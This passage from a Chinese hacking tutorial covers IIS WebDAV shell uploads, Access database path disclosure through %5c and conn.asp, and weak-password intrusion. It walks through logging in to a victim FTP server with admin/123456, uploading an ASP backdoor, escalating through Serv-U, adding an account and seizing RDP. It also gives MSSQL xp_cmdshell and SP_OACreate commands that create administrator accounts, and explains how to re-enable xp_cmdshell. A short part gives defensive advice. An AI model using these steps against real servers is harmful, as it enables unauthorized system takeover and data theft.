

图25



图26



图27

```http
HTTP/1.1 207 Multi-Status
Date: Sat, 29 Dec 2007 13:14:23 GMT
Server: Microsoft-IIS/6.0
Content-Type: text/xml
Transfer-Encoding: chunked

<?xml version="1.0"?><a:multistatus xmlns:a="DAV:"><a:response><a:href>http://192.168.1.252/shell.asp</a:href><a:status>HTTP/1.1 403 Forbidden</a:status></a:response></a:multistatus>
```

这里我们只是讨论了为什么会出现这些情况的原因，而这个 IIS 写权限的挖掘就真的到此为止了么？当然不是，通过我的思考又发现了点乐趣。

我们知道，一个服务器大多数情况下都绑定了其它的域名，而每个网站对应的 IIS 又是单独的！有没有这种可能呢？那就是管理员的疏忽导致有些网站的设置不严格。我们来实验下，先建立两个网站，都是同一个 IP：192.168.1.252，然后分别按照如图28、图29这样进行设置。



图28



图29

毫无疑问，其中一个站点会轻易被我们拿到 shell，如图30、图31的扫描结果，大家注意端口的不同。




看到这里是不是有点了解了呢？还有一点值得一提，那就是通过 IIS 写权限挂马的问题。小组的 VINI5 同学做了一个动画出来，但是我却无法通过虚拟机来模拟他的结果，也就是说通过操纵 css、js 文件的内容来挂马，有时候也是没有权限的！大家如果想了解可以到 www.slenk.net 观看他的动画！

总结：这其实和运行的程序没什么关系，只是 IIS 配置不当引起的，只能说“小失误，大问题呀”！分析 IIS 配置不当而引起的漏洞就到此为止了，其实有时候在找不出办法时，这一招很有可能就会用到。

### 2.4 暴库

在说暴库之前，我们首先要了解两个概念：**相对路径和绝对路径**。绝对路径大家一般都明白，比如 `d:/test/test/test.mdb` 就是一个绝对路径，而 `/test/test.mdb` 就是一个相对路径。

**暴库有两个方法来实现，第一个就是利用 `%5c`，另外一个就是 `conn.asp` 暴库。**在这里我得提醒一下，这里的暴库是针对于 access 数据库的，而和 access 搭配的脚本一般是 asp，因此出现暴库的一般为 asp 类型站点。好了，我们来首先了解一下 `%5c` 暴库吧。

#### 2.4.1 %5c 暴库

简单点说，就是在打开页面的时候把网页中的 `/` 换成 `%5c`，然后提交就可以得到数据库地址了，但并不是所有的页面都可以成功，而需要 `asp?id=` 这样的网址，因为这样的网址表示该页面调用了数据库，也就是说如果你知道一个文件调用了数据库，如 `search.asp`、`vote.asp` 等，都有可能导致暴库漏洞。

举个例子吧：如 `http://www.test.com/test/vote.asp?id=123`，当把第二个 `/` 换成 `%5c` 的时候就会出现类似如下的错误信息：

> Microsoft JET Database Engine 错误 '80004005'  
> `'D:\123\test\test.mdb'` 不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。  
> `/test/conn.asp`，行12

那么为什么会出现这样的情况呢？这得和 IIS 的解析联系起来。`%5c` 是 `\` 的十六进制代码，也就是 `\` 的另一种表示方法，我们在提交网页的时候，IE 会自动把 `%5c` 转换成 `/`，从而得到同一地址。这里问题就来了，在 asp 类型网站中，都会用到一个数据库连接的文件，名字一般是 `conn.asp`，内容大概如下：

```asp
<%
  dim conn
  dim dbpath
  set conn=server.createobject("adodb.connection")
  DBPath = Server.MapPath("test/test.mdb")
  conn.Open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath
%>
```

看到 `DBPath = Server.MapPath("test/test.mdb")` 这一句没？Server.MapPath 方法的作用是将网站……中的相对路径转变成物理上的绝对路径。因为在连接数据库时，应该指明它的绝对路径，这样就得到了数据库的绝对路径为 `D:\123\测试\test\test.mdb`。

可 IIS 就不这样认为了，因为来了一个 `%5c`（也就是 `\`），虽然 IE 解析的时候是一个意思，可在 IIS 这里却认为访问到 `\` 这里时就到了根目录所在的地方，而不再往上解析了。于是刚才的路径在 IIS 眼里就是 `d:/123/test/test.mdb`，是不存在的，所以就报错了。

以前有人提到过利用多目录是否能提高报错的几率，其实这种方法是不太正确的。因为 IIS 在遇到 `%5C` 以后就会停止向上解析，所以无论你中间构造多少目录，并且无论是真是假，都会被舍弃，相对路径还是根目录，是不会报错的。

#### 2.4.2 CONN.ASP 暴库

其实一谈起这个文件，很多人想到的就是利用 `inc/conn.asp` 来实现目的，达到暴出数据库地址的作用。如果说前面的 `%5c` 方法是利用了绝对路径出错的话，那么这一种方法就是利用的相对路径出错。

在这之前，我们先来看一段 `conn.asp` 是怎么写的，代码如下：

```asp
<%
db="kenatlybdatabase/kenandatabase.mdb"
connstr="DBQ="+server.MapPath(db)+";DefaultDir=;DRIVER={Microsoft Access Driver (*.mdb)};Pwd=kenannet"
set conn=server.CreateObject("ADODB.Connection")
conn.open connstr
Sub rsclose()
    rs.close()
    set rs=nothing
End Sub
Sub connclose()
    conn.close()
    set conn=nothing
End Sub
%>
```

其中第一句就很明白，调用的数据库相对路径是 `kenatlybdatabase/kenandatabase.mdb`。`conn.asp` 文件一般是起调用数据库作用的，如果调用文件和 `conn.asp` 文件的相对位置发生变化了，那么就会出现暴库。

可能这样说大家不太容易明白，我们举以前的动力文章系统的例子详细说明下。动力文章系统的 `conn.asp` 位于系统的 `inc` 目录下，而很多调用它的文件在系统的根目录下，比如 `user_chklogin.asp` 等。这样，当 `conn.asp` 执行时，它是在系统的根目录 `d:\www\test\dongli\` 下执行的，因此在 `conn.asp` 文件中调用数据时，考虑到执行目录的路径，数据库的相对路径地址应当写成如下所示：

```asp
Dim db
Db="database/fp360309.asp"
```

这样，当它在系统的根目录下执行时，数据库的相对路径就为根目录下的 `database` 目录。可当我们直接请求它时，它工作的当前目录是在 `inc` 目录下，这个时候数据库的相对路径就变成了 `inc/database/fp360609.asp`。显然，在 `inc` 目录下是不存在这样一个目录的，所以会出错，并得到了数据库的地址。

#### 2.4.3 暴库的防范

暴库一般都是针对 Access 的数据库，那么有没有办法防范呢？方法其实是有的。现在 `%5c` 和 `conn.asp` 暴库大法的效果已经没有以前那么明显了。这是为什么呢？因为随着这些漏洞的发掘，越来越多的网络管理员、站长等开始注意并通过一些措施或者使用最新版的 IIS，抑或是打补丁等方法来防止暴库的发生。

接下来，让我们看看暴库防范的具体操作流程是怎么样的。

- 不管是操作系统还是一些整站系统，及时更新或者使用最新版本是躲避以前发现过的漏洞攻击最有效的方法之一。也就是把 IIS 升级到最新版本，如果你觉得更换版本太麻烦或者让你感到不习惯，那么打补丁的习惯就必不可少了。
- 在 `conn.asp` 暴库中，如果我们限制这个文件暴库，也就是说让它没报错就继续执行，如果暴库就执行另外的代码，这样我们就可以人为地操作代码报错的返回信息。也就是说暴库可以轻而易举地用一些代码来加以控制。其中最有效的方法是如下的 `conn.asp` 代码：

```asp
<%
DbPath = Path_Index & "data/cfilm.mdb"  ' Access 数据库路径设置
On Error Resume Next
ConnStr = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(DbPath)
Set Conn = Server.CreateObject("Adodb.Connection")
Conn.Open ConnStr
%>
```

最为关键的一句莫过于：**On Error Resume Next**，它的意思简单点理解就是不理会报错，这样就可以用 ASP 本身的特性来规避错误。除了加代码以外，我们还可以利用 IIS 的特性来解决这一问题。

先查看网站的“属性”，选择“主目录”标签项，在其中“执行权限”的右侧，点击“配置”按钮，如图 3.2。

这时弹出“应用程序配置”对话框，我们选择“调试”标签项，在这一个页面上我们主要关注的是“脚本错误的信息”。在默认情况下，通常是选择了“向客户端发送详细的 ASP 错误消息”的，正因为如此，攻击者可以得到服务器的敏感信息。这里我们将其修改为选择第二项，即“向客户端发送下列文本错误消息”，如图 3.3。这样，再访问一段有问题的 `conn.asp` 文件时，就会出现如图 3.4 的提示。


其实利用 IIS 的这一点不仅可以用来防范暴库，也可以防范一些攻击者试图利用报错信息来获得服务器的敏感信息，比如现在常见的 SQL INJECTION。

- 好多站长以为把数据库格式改成 ASP 后会万事大吉，其实不然！如果程序处理提交上来的数据不当的话，会导致直接写入一句话拿到 SHELL，而且 ASP 也是可以下载的（利用迅雷或者快车等工具下载）。如果在 MDB 的数据库中加入一个防下载的表，如 `<% nodownload %>`，这样利用工具也是下载不了的。

还有一些人喜欢给数据库的名字加入一些奇特的字符，当然了，这是为了安全着想，是很有道理的，但也不要掉以轻心。如经常见到的“#”就可以利用 16 进制的 `%23` 来突破。

有些下载到的数据库可能还需要密码，如果密码够复杂的话，攻击者就可能花上好几天的时间来破解了。有一款软件叫“ACCESS 密码破解器”，大家可以用用，下载地址：http://www.skycn.com/soft/45517.html

### 2.5 弱口令攻击

尽管计算机一路发展到今天已经有了很大的变化，不管是从安全还是从性能方面，确实不可同日而语。但令人担忧的是，不管硬件技术如何发展，我们都要面临一个很实际的问题，那就是管理。而管理是要由“人”来完成的，这一点大家都很熟悉，人是有惰性的。某人说过的一句话：“最可靠的是人，最不可靠的也是人”，以此可知人性的弱点是存在的。

这一节我们并不是要讨论人的各种缺点，而是想让大家知道，管理者（人）由于疏忽或者其他原因，而把涉及到电脑的各种口令设置得极其简单的后果。当然，这些口令可能是各种各样的，比如 FTP、SSH 等各种服务，抑或管理平台的口令，都可能被攻击者不费任何力气获得，从而导致服务器的沦陷。

本书不可能把所有的服务或者平台的弱口令利用方法都讲到，但我们会把一些常用的、基于大众的弱口令攻击方法描写出来。

#### 2.5.1 FTP 弱口令

首先得向大家介绍一下什么是 FTP。**FTP（File Transfer Protocol）** 是文件传输协议的简称，用于 Internet 上控制文件的双向传输。同时，它也是一个应用程序，用户可以通过它把自己的 PC 机与各地的所有运行 FTP 协议的服务器相连，访问服务器上的大量程序和信息。

简单点说，我们可以利用 FTP 读取、上传、删除、创建文件或者程序，如果得到一个权限很大的 FTP 账号，后果是比较严重的。当然了，FTP 除了 MS 自带的外，现在比较流行的还有 Serv-U。Serv-U 是一款非常强大并且容易上手的 FTP 工具，正是因为其广泛的应用性，这一款工具因此也得到了黑客们的青睐，并且曝出了多个漏洞。除了基于 CGI 界面的控制外，还有基于命令行下的控制访问。

```bash
ftp 211.x.x.119
##### 若需指定端口
open 211.x.x.119 21
```

在命令行下工作的 FTP 一般是指在 CMD 窗口下输入的 FTP 命令。因为 FTP 协议默认的端口号是 21，如果更改了的话，需要按所连接的 FTP 服务器设置来变更。如图 35，就是在命令行下执行 FTP 命令后的结果。从图 35 还可以看出，连接时就像进入自己电脑一样要输入用户名和密码，而且对方使用的是 Serv-U，版本为 4.2。


接着，我们就得利用工具来进行扫描了。如果是单纯进行弱口令扫描的话，我推荐大家使用 hscan。Hscan 有命令行下的，也有 GUI 版的，我们这里以 GUI 版本为大家演示一下。首先打开 hscan，在该工具的左下角有一个 menu（菜单），主要关注 modules（模块）和 parameter（参数）这两项设置。


在这里面，有大部分可以扫描弱口令的服务，如 FTP、SSH、MSSQL、MySQL 等。这里只操作怎么扫描 FTP，先把“check ftp weak accounts”勾选上，然后再到参数选项中设置，如图 38。其中“startip”和“endip”为你要扫描的开始 IP 和结束 IP；也可以自己挑选要扫描的 IP，只要把“hostlist”勾选上即可。


当然了，如果你是撒网式（即大范围）扫描，那是需要很长一段时间才能完成的任务，并且还要看你机器的配置情况。扫描到信息后就要靠经验来分析了，因为一些 FTP 账号的权限其实并不大。好了，我们从结果中挑选一个用户名为 admin、密码为 123456 的组合，在命令行下连上去，并输入用户名和密码后成功登录。由于是 Serv-U，所以想到的是直接加一个系统账户，命令为：`quote site exec net user guest /active:yes`。

把系统内置的账户 guest 激活（默认情况下 guest 账户是锁定的），发现不能执行命令，如图 40，提示“501 permission denied”。


说到这里我不得不提一下，有些人在扫到这样的弱口令后直接执行加账户的命令会成功，其实在默认配置的 Serv-U 下是没有权限执行命令的，之所以会成功，是因为有人入侵者已经用过 Serv-U 提权了，所以配置就改变了。

那么无法成功的时候我们怎么办呢？虽然直接加用户的思路断掉了，但我们可以先使用命令 `dir`（这个命令如同 CMD 下的 `dir` 命令一样，是显示文件）查看一下有什么文件，如图 41。

大家看清楚了哦，查看到有 admin、upload 这样的目录，还有 index.htm，这里就要注意啦，很可能是一个 Web 目录，也就是说我们传一个后门 ASP 脚本就有可能得到一个 shell。先别急，我们要先知道后门被传到哪里去了，也就是说要能通过 URL 连接找到我们的后门地址，这样才行之有效。

先把它的 `index.htm` 下载到本地看一下里面的内容，命令为：`get index.htm c:\index.htm`，就是把 `index.htm` 文件下载到本地 C 盘里面并且文件名还是 `index.htm`。

现在到本地的 C 盘打开这个文件进行查看，如图 42，什么内容都没有显示，不过可以看到标题，显示的是公司名称。


现在简单了，思路很清楚，有两种选择：第一就是利用 Google 或者百度搜索得到其公司的网站；第二种就是利用现有的 IP 地址反查询其上面的网站，然后根据查询结果来推测网站地址。

这里提示一下，一般情况下，一台服务器上可以绑定很多域名，虽然域名不一样，但是都在同一台服务器上。打个简单的比方：一幢大厦里面有很多公司，而这些公司却各不相同。公司就相当于域名，而大厦就相当于服务器。

我们先试一下第一种方法，在百度里面搜索“***发展有限公司”，得到的结果如图 43。


很明显，第一个被搜索到的很有可能就是目标网站了。先记下这个 URL，然后到 `http://ip.wen.la/` 反查一下这台服务器上有多少域名，结果如图 44。


从查询的结果也可以看到有这样一个公司网站（不好意思，关键部分被我抹掉了），而且打开 `http://www.xx.com.cn` 后发现有 admin 和 upload 目录。现在好了，直接上传一个 ASP 脚本木马上去，命令为：`put F:\武器\web木马\asp马\dama.asp`，回显的结果如图 45。


其中 `F:\武器\web木马\asp马\dama.asp` 为我本地 ASP 后门脚本所在的路径。接着打开 `http://www.xx.com.cn/dama.asp`，输入后门密码后如图 46。


现在怎么办？呵呵，当然就是回到先前的想法了，利用 Serv-U 来提权。而这个 SHELL 自带 Serv-U 提权功能，点击“Serv-U 提权”，把右侧命令栏中的语句改成你想加的用户，我这里以 test 为例，然后单击“提交”就可以了。

成功后我们利用左边的“系统服务－用户账号”查看一下，如图 47，test 用户已经加上去了（第 8 行）。


有了用户，接着做的就是占领 3389 啦！在运行里输入：**mstsc**，然后在弹出的对话框里输入刚才的 IP，和建立的用户名及密码，这样就可以成功占领服务器的桌面啦！如图 48。

是不是很简单？其实不然，入侵之后还是有很多工作要做的，比如入侵痕迹的清理，以及如何保住这台肉鸡等，这些内容将在以后的章节中介绍。那么，利用 FTP 入侵就到这里了，我总结一下：

- 第一就是得到 FTP 密码后如果不能直接利用，不要死盯着一点，应该把目光放在其他的点上，充分利用资源。
- 第二就是要利用尽可能多的方法来收集对方的信息。

总之，攻击者入侵会想尽一切办法来达到目的的。

#### 2.5.2 基于 MSSQL 弱口令的入侵

MSSQL 其实是一个关系数据库管理系统，是 Microsoft 推出的新一代数据管理与分析软件。它是一个全面的、集成的、端到端的数据库方案，为企业中的用户提供了一个安全、可靠和高效的平台，用于企业数据管理和商业智能应用，所以适合一些大型网站使用。

在这里本书并不会把重点放在如何安装和使用 MSSQL，而是着重于如何利用在基于已知用户名和密码的情况下拿到服务器权限。在讨论 MSSQL 的特性之前，我们得先了解一下相关知识。

**在 SQL Server 中，主要有两种角色类型：服务器角色与数据库角色。**不过，这里并不会详细介绍各个角色的权限以及相关信息，当然了，如果你要精通 SQL Server 2000 的话，详细阅读关于角色方面的资料是必不可少的。

一般攻击者在扫描或者 SQL 注入攻击的时候，大多数会遇到三种角色：**sa 权限、db_owner 权限和 public 权限**，我们来看一下这三种角色的权限是如何分配的（一般情况下，对于攻击者来说权限是他们最为关注的）。

### SA 权限：

**是 System 和 Admin 的缩写，为 MSSQL 数据库的默认系统账号，具有最高权限。**第一次安装 MSSQL 时，如果没有改过于简单的设置了 SA 的密码（弱口令便在此产生），攻击者很容易利用 hscan 或者 x-scan 等暴力破解工具通过字典猜解的方式来得到用户名和密码，然后再通过 SQL 连接器等工具连到 1433 端口（MSSQL 默认端口），利用扩展存储功能执行系统命令。

除了一些基本的对数据库拥有读取、写入等权限外，就是可以执行大部分存储过程了，而其中最令黑客青睐的莫过于 `xp_cmdshell` 这个存储过程，利用此过程可以执行大部分 DOS 命令，也就相当于我们平常在系统的 CMD 里面执行命令了。

因此，对于安全管理员来说，应该为 SA 用户分配一个强壮的密码。当然，一些精通安全的管理员也会对 SA 做一些手脚，使得一些攻击者在得到 SA 用户后也不能简单地利用。

### Db_owner 权限：

其中 db 是 database 的缩写，owner 是拥有者的意思。从字面上我们就可以猜测出 db_owner 是指某个数据库的拥有者，它拥有对数据库的修改、删除、新增数据表及执行大部分存储过程的权限。但是有一点需要注意，当涉及到一些系统敏感操作时，它是没有权限的，如前面提到的 `xp_cmdshell`，这也是它与 SA 权限的区别。

### Public 权限：

目前来说，public 的权限相对较小，不过也还是有可以利用的地方，比如列目录、建立临时表等。好了，主要的三种权限都说完了，当然了，攻击者面临的问题都是未知的，因此它们会根据提示或者通过查阅资料，抑或是根据经验来判断问题的解决方法。下面我们就来看一下攻击者是如何通过弱口令来入侵机器的。

现在我们已经扫描到了一台拥有弱口令的机器，用户名是 sa，口令为 admin，我们首先通过 `SQLTools.exe` 连上去试一下，如图 49，很不幸，连接失败。


不能因为这样的提示就放弃，再换一个工具试试。这次利用的是 `MSSQL连接器.exe`，发现依然连接不上，不过有了提示：“拒绝的权限”，如图 50。因为 MSSQL 本身就很大，这里建议用 SQL 查询分析器分离版本，输入用户名和密码后发现连上去了，然后分别执行：`exec xp_cmdshell 'net user test test /add'`、`exec xp_cmdshell 'net localgroup administrators test /add'`，这两句命令就成功为其系统加上了一个用户名为 test、密码为 test 的管理员权限账户。

不过这里只是其中的一种情况，要是管理员做了手脚呢？我们来看看接下来的这个弱口令例子，也和上面例子情况类似，用普通的 SQL 工具连不上，用查询分析器连上去后执行同样的命令出现提示如图 51。


看到提示了没？“未能找到存储过程‘xp_cmdshel’”，管理员把 `xp_cmdshell` 这个存储过程删除了。小提示一下，现在用 MSSQL Server 2005 服务器版本的网站也多了起来，而在这个版本里面，`xp_cmdshell` 组件是被禁止使用的，使用它时会被提示：

```
Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.
```

如果想开启 `xp_cmdshell` 的话，可以使用如下语句：

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

看好了，是一句话执行的，因为 MSSQL 支持多句执行语句，不过中间要用“;”分开。当然，判断 MSSQL Server 的版本可以用命令：`select @@version`，我们现在来看一下目标机器的版本，如图 52。看到了吧，是 2000 的版本！不过为了保险起见，我们还是用命令来判断一下存储过程是不是真的被删。

此外，语句如下：

```sql
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = 'X' AND name = 'xp_cmdshell'
```

得到如图53的返回信息。


通过返回信息知道该存储过程确实是存在的，如果被删除了，我们可以用如下语句来恢复（前提是 xplog70.dll 必须存在），执行后如图54。

```sql
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
```

很显然，我们扫描的这个用户不是 SA 权限，是普通权限，也就是 db_owner 权限。如果是 SA 账户却不能执行 xp_cmdshell 的话，引起失败的原因可能会是以下几种：

- 禁止了 system 调用 cmd.exe；
- mssql 运行账户被改为 user 或者 power user，这个权限可以执行部分系统命令，但是无法执行超越本身权限的命令，如 `net user test /add`；
- xp_cmdshell 被删除或者改名；如果被删除，可以用前面的方法进行恢复，但必须指定路径。如我们把 xplog70.dll 上传到了目标机器的 C 盘根目录下，则语句就变成了：`exec sp_addextendedproc 'xp_cmdshell',@dllname='c:\xplog70.dll'`。

到这里，xp_cmdshell 这个存储过程一直扮演着重要角色，可是 MSSQL 的强大之处在于提供了多种 OLE 对象的函数，即使 xp_cmdshell 被删除或者不能用的时候，我们依然有办法来获取系统权限。

我们可以利用 SP_OACreate 与 SP_OAMETHOD 调用系统对象 wscript.shell 来执行命令，先用 SP_OACreate 调用 wscript.shell，并赋值变量，再由 SP_OAMETHOD 调用执行，语句如下：

```sql
Declare @runshell INT
Exec SP_OACreate 'wscript.shell',@runshell out
Exec SP_OAMETHOD @runshell,'run',null,'net user test test /add'
```

然后按 F5 执行查询，如果成功则返回如图55的信息。


这样就会在目标机器添加一个用户名和密码都为 `test` 的用户。当然了，也有以下几种失败的原因：

- `mssql` 运行账户被改为 `user` 或者 `power user`，这个权限可以执行部分系统命令，但是无法使用超越本身权限的命令，如 `net user test /add`；
- `wscript.shell` 对象被删除或者改名；
